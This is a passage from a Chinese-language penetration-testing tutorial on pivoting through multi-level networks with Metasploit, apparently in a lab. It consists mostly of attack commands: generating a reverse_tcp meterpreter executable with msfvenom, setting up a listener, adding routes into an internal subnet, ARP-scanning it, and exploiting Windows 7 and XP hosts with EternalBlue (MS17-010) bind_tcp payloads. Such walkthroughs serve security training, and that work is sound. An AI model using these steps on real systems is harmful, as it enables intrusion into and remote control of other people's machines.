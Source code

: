 ![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)通与不通就缺了一个socks代理，我太爱proxychains了

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

* * *

  

**三、MSF穿越多级网络**
===============

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  
①生成payload

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.1.5 lport=1122 -f exe >test.exe
```

②建立监听，返回会话

```
`use exploit/multi/handler``set payload windows/meterpreter/reverse_tcp``set lhost 192.168.1.5``set lport 1122``run`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

③发现存在75网段，对该网段进行纵向渗透。添加192.168.75.x段网段静态路由

```
run autoroute -s 192.168.75.0/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

④对192.168.75.x网段进行主机存活扫描，此时在MSF各个模块已经可以访问75网段

```
run post/windows/gather/arp_scanner RHOSTS=192.168.75.0/24
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

⑤挂起当前会话，对目标win7(192.168.75.131)进行攻击

```
`use exploit/windows/smb/ms17_010_eternalblue``set rhost 192.168.75.131``#因为直连没有返回的流量所以不能用默认的reverse payload。``#直连是在目标上面开一个端口然后本地去连接``set payload windows/x64/meterpreter/bind_tcp` `run`
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

漏洞利用失败。为了加强效果节目效果专门搞了个XP

```
`use exploit/windows/smb/ms17_010_eternalblue``set rhost 192.168.75.132``set payload windows/meterpreter/bind_tcp` `run`
```
